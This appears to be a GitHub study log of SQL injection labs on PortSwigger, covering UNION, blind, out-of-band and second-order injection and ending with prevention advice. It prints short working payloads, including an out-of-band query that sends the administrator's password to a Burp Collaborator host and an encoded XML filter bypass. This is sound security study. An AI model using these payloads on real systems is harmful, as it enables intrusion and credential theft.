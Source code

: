 # 📓 SQL Injection Basics + Labs

Today’s focus: mastering SQL Injection vulnerabilities using PortSwigger labs.

---

## 🔍 Topics Covered

✅ Understanding SQL Injection basics
✅ UNION-based SQL Injection
✅ Blind SQL Injection (Boolean, Time-based, Error-based)
✅ Out-of-Band (OAST) SQL Injection
✅ SQL Injection in Different Contexts (JSON, XML)
✅ Second-Order SQL Injection
✅ How to Prevent SQL Injection

---

## 🧪 Lab Walkthroughs

### Lab 1: UNION SQL Injection

- Identify column count using `ORDER BY`
- Find reflected columns using `UNION SELECT NULL, 'test'--`
- Extract sensitive data (`username`, `password`)
- Use `NULL` for non-displayed columns

### Lab 2: Blind SQL Injection (Boolean)

- Inject true/false conditions (`AND 1=1`, `AND 1=2`)
- Extract data character by character with `SUBSTRING`

### Lab 3: Blind SQL Injection (Time-based)

- Use `IF` + `SLEEP` conditions to test truth (`IF(1=1, SLEEP(5), 0)--`)
- Infer data by measuring response delays

### Lab 4: Blind SQL Injection (Error-based)

- Use `CASE WHEN` + divide-by-zero to trigger conditional errors
- Extract table names, column names, passwords using crafted payloads

### Lab 5: Out-of-Band (OAST) SQL Injection

- Trigger external DNS/HTTP interactions to leak data
- Use Burp Collaborator to capture the out-of-band callouts
- Craft payloads like:

```
TrackingId=x'||(SELECT password FROM users WHERE username='administrator')||'.your-collab-subdomain.burpcollaborator.net'--
```

- Poll Collaborator tab to retrieve leaked data

### Lab 6: SQL Injection in Different Contexts

- Inject via JSON, XML, or HTTP headers
- Bypass filters using encoding/escaping (e.g., XML entities)
- Example XML payload:

```
<storeId>1 &#x55;NION SELECT username || '-' || password FROM users</storeId>
```

### Lab 7: Second-Order SQL Injection

- Inject payloads that get stored in the DB first (e.g., in profile fields)
- Wait until app retrieves and uses that data in a later SQL query
- Example:
  1. Submit: `newbio=abc' UNION SELECT ...--`
  2. Trigger second request (e.g., profile view) that runs the malicious SQL

---

## 📅 Timeline

- **Start Date:** May 26, 2025
- **End Date:** May 30, 2025

## 🛡️ Takeaways

- Parameterize all queries — never directly insert user input
- Use prepared statements in all backend code
- Avoid passing table/column names or ORDER BY fields from user input
- Apply whitelisting where dynamic elements are unavoidable
- Grant least privilege to database accounts — no unnecessary `INSERT`, `DELETE`, or `DROP`
- Regularly scan/test with tools like Burp Suite, sqlmap, and Snyk

---

## Steps to Prevent SQLi

1. Use parameterized queries/prepared statements.
2. Avoid dynamic query construction with user-controlled identifiers.
3. Sanitize and validate all inputs, including hidden fields and headers.
4. Apply principle of least privilege — e.g., app DB user only needs `SELECT`, not `DROP`.
5. Regularly patch frameworks and libraries to close known injection vulnerabilities.
6. Run code reviews and static analysis tools to catch unsafe patterns.

---

## 📎 Links

- [PortSwigger SQLi Labs](https://portswigger.net/web-security/sql-injection)
- [SQLi GitHub Folder](./)

🌟 **SQLi complete! On to next...**

